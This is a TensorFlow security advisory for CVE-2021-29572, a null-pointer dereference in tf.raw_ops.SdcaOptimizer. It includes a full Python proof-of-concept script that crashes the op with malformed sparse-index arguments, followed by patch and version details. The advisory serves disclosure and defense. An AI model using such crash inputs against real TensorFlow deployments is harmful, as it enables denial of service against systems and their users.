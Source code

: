URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-060.md
## TFSA-2021-060: Reference binding to nullptr in `SdcaOptimizer`

### CVE Number
CVE-2021-29572

### Impact
The implementation of `tf.raw_ops.SdcaOptimizer` triggers undefined behavior
due to dereferencing a null pointer:

```python
import tensorflow as tf

sparse_example_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_indices = [tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_feature_values = []

dense_features = []
dense_weights = []

example_weights = tf.constant((0.0), dtype=tf.float32)
example_labels = tf.constant((0.0), dtype=tf.float32)

sparse_indices = [tf.constant((0), dtype=tf.int64), tf.constant((0), dtype=tf.int64)]
sparse_weights = [tf.constant((0.0), dtype=tf.float32), tf.constant((0.0), dtype=tf.float32)]

example_state_data = tf.constant([0.0, 0.0, 0.0, 0.0], shape=[1, 4], dtype=tf.float32)

tf.raw_ops.SdcaOptimizer(
  sparse_example_indices=sparse_example_indices,
  sparse_feature_indices=sparse_feature_indices,
  sparse_feature_values=sparse_feature_values, dense_features=dense_features,
  example_weights=example_weights, example_labels=example_labels,
  sparse_indices=sparse_indices, sparse_weights=sparse_weights,
  dense_weights=dense_weights, example_state_data=example_state_data,
  loss_type="logistic_loss", l1=0.0, l2=0.0, num_loss_partitions=1,
  num_inner_iterations=1, adaptative=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/60a45c8b6192a4699f2e2709a2645a751d435cc3/tensorflow/core/kernels/sdca_internal.cc)
does not validate that the user supplied arguments satisfy all [constraints
expected by the
op](https://www.tensorflow.org/api_docs/python/tf/raw_ops/SdcaOptimizer).

### Patches
We have patched the issue in GitHub commit
[f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb](https://github.com/tensorflow/tensorflow/commit/f7cc8755ac6683131fdfa7a8a121f9d7a9dec6fb).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
